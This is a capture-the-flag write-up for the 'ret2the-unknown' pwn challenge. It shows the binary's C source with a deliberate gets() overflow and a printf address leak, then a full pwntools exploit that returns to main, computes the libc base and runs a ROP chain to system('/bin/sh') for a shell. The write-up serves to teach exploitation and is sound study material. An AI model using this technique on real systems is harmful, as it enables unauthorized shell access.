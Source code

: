 # ret2the-unknown

## Challenge

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Source

```c
int main(void)
{
  char your_reassuring_and_comforting_we_will_arrive_safely_in_libc[32];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("that board meeting was a *smashing* success! rob loved the challenge!");
  puts("in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...");
  puts("where is this place? can you help me get there safely?");

  // please i cant afford the medical bills if we crash and segfault
  gets(your_reassuring_and_comforting_we_will_arrive_safely_in_libc);

  puts("phew, good to know. shoot! i forgot!");
  printf("rob said i'd need this to get there: %llx\n", printf);
  puts("good luck!");
}
```

## Solution

The program gives us an unsafe call to `gets`, followed by a leak for the address of the `printf` function.

We can use the `gets` call to jump back to the start of the program.

Before we return to the start, we will read the leak from normal program execution.

Once we have the leak and another `gets` call, we can overwrite the buffer and set up a ROP chain to call `system("/bin/sh")`.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mc.ax --port 31568 ret2the-unknown
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('ret2the-unknown')
libc = ELF('libc-2.28.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 31568)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.recvlines(2)

payload = flat({
    0x20+8: exe.sym["main"]
    })
io.sendline(payload)

io.recvuntil(": ")

leak = io.recvuntil("\n", drop=True)
libc.address = int(leak, 16) - libc.sym['printf']
io.success(hex(libc.address))

rop = ROP(exe)

payload = flat({
    0x20+8: [
        rop.find_gadget(['pop rdi', 'ret'])[0],
        next(libc.search(b'/bin/sh')),
        libc.sym['system'],
        ]
    })
io.sendline(payload)

io.interactive()
```

## Flag

`flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`

